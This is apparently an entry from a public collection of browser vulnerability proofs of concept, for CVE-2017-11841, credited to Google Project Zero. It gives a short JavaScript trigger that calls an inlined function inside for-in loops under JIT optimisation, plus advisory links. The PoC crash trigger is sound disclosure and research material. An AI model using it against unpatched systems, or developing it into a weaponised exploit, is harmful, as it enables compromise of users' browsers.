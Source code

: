 # CVE-2017-11841

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(obj) {
    for (let i in obj.inlinee.call({})) {
    }

    for (let i in obj.inlinee.call({})) {
    }
}

function main() {
    let obj = {
        inlinee: function () {
        }
    };
    
    for (let i = 0; i < 10000; i++)
        opt(obj);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11841)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1366)
